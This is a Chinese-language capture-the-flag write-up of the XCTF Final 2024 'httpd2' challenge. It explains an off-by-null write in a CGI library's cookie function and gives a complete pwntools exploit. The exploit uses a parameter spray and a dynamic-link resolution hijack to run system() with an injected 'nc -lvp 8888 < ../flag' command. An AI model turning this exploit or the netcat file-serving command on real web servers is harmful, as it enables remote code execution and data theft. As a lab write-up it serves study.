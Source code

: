 ```yaml
---
data: 2024-07-20 16:31
challenge: httpd2
tags:
  - dlresolve
  - spary
---
```


> [!info]
> 题目本身不难，对于线下赛我认为工作量也是很合适的。针对动态链接的攻击非常有趣，是一道好题。
>
> 但是比赛期间我没有解出来（0 解），原因如下：
>
> 1. 题目存在两处漏洞，都是越界写。但是越界 buffer 的附近没有任何数据
> 2. 利用涉及喷射 - 命中的思路，线下赛期间感觉思路比较混乱
> 3. ~~此外就是被本地出了远程爆破半天出不来的 solo 题和虚拟机逆向题折磨得神志不清~~

## Analysis

cgi-bin 目录下一共给了三个文件，其中漏洞只有可能存在于 `libctfc.so`（因为另外两个都过于直白了），其中有用的洞是 `genCookie` 函数里的越界写 0：

```c
v4 = strlen(passwd);
sub_135A(dest, 1024LL, passwd, v4 + 1);
dest[v4] = 0;
```

<details>
<summary>**调试**</summary>

这种题目的调试我一般使用 gdbserver，直接在 docker 里面安装，替换 main.cgi 内容为 `gdbserver 0.0.0.0:1234 ./real.cgi` 即可调试，相关脚本见 [initgdb.sh](./bin/cgi-bin/initgdb.sh)。

</details>

## Exploitation

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

# cli_script()
# set_remote_libc("libc.so.6")
#
# io: tube = gift.io
# elf: ELF = gift.elf
# libc: ELF = gift.libc

context.log_level = "info"
context.arch = "amd64"
context.terminal = ["tmux", "sp", "-h", "-l", "120"]

rl = lambda a=False: io.recvline(a)
ru = lambda a, b=True: io.recvuntil(a, b)
rn = lambda x: io.recvn(x)
s = lambda x: io.send(x)
sl = lambda x: io.sendline(x)
sa = lambda a, b: io.sendafter(a, b)
sla = lambda a, b: io.sendlineafter(a, b)
ia = lambda: io.interactive()
dbg = lambda text=None: gdb.attach(io, text)
i2b = lambda c: str(c).encode()
u32_ex = lambda data: u32(data.ljust(4, b"\x00"))
u64_ex = lambda data: u64(data.ljust(8, b"\x00"))

io = remote("127.0.0.1", 80)

while True:
    try:

        def get_payload(name, passwd, spary_payload):
            payload = b"POST /cgi-bin/main.cgi HTTP/1.1\r\n"
            payload += b"Host: localhost\r\n"
            payload += b"Content-Type: application/x-www-form-urlencoded\r\n"
            payload += b"Connection: close\r\n"

            post_data = b"username=" + name + b"&passwd=" + passwd + spary_payload
            payload += f"Content-Length: {len(post_data)}\r\n".encode()
            payload += b"\r\n"
            payload += post_data
            payload += b"\r\n"
            return payload

        spary_payload = b""
        for i in range(0xC0 + 0x10, 0x5000, 8):
            if ((i - 8) & 0xFFF) == 0xEA0:
                spary_payload += b"&" + b"a" * 0x69 + b"%00system%00"
            else:
                spary_payload += b"&x"

        distance = 0x125F48
        payload = get_payload(
            b"nc -lvp 8888 < ../flag", b"a" * (distance + 2), spary_payload
        )
        s(payload)

        data = rl()
        print(data)
        assert b"500" not in data()

        ia()
    except:
        io.close()
        io = remote("127.0.0.1", 80)


# buf = 0x7ffff7e96300
# target_strtab = 0x7ffff7fbc248
```

---

## References

\[1\] [Official WP - xctf final 2024 httpd2 writeup](https://forum.butian.net/share/3123) . _[noir](https://forum.butian.net/people/32623)_
